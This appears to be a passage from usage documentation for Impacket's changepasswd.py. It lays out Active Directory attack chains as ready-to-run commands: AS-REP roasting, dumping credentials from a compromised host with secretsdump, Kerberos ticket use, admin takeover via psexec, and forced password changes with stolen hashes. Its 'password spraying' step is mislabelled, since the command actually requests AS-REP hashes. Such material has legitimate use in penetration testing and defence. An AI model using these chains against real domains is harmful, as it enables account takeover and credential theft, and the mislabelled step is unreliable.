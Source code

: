 ### Password Spraying Follow-up
```bash
# Step 1: Identify valid accounts with password spraying
python3 GetNPUsers.py domain.local/ -usersfile users.txt -no-pass -outputfile asrep.out

# Step 2: Change passwords for compromised accounts
python3 changepasswd.py domain.local/validuser@dc.domain.local -newpass 'CompromisedPass123!'
```

### Credential Harvesting to Password Change
```bash
# Step 1: Extract credentials from compromised system
python3 secretsdump.py domain.local/admin:password@target.domain.local

# Step 2: Change passwords using extracted hashes
python3 changepasswd.py domain.local/user@dc.domain.local -hashes :extractedhash -newpass 'NewPass123!'
```

### Kerberos Ticket to Password Change
```bash
# Step 1: Obtain service ticket
python3 getST.py domain.local/user:password -spn cifs/dc.domain.local

# Step 2: Use ticket for password change
export KRB5CCNAME=user.ccache
python3 changepasswd.py -protocol kpasswd -k domain.local/user@dc.domain.local -newpass 'NewPass123!'
```

### Administrative Password Reset
```bash
# Step 1: Compromise administrative account
python3 psexec.py domain.local/admin:password@dc.domain.local

# Step 2: Reset user passwords with admin privileges
python3 changepasswd.py -reset domain.local/targetuser@dc.domain.local -newpass 'AdminSetPass!' \
    -altuser domain.local/admin -altpass 'AdminPassword123!'
```

## Prerequisites
- Python 3.x with Impacket installed
- Network access to target system on required ports
- Valid credentials for the target user (for password change) or administrative user (for password reset)
- Appropriate protocol-specific requirements:
  - SMB: SMB access (port 445)
  - RPC: RPC access (port 135 + high ports)
  - Kerberos: Kerberos access (port 88)
  - LDAP: Secure LDAP access (port 636)

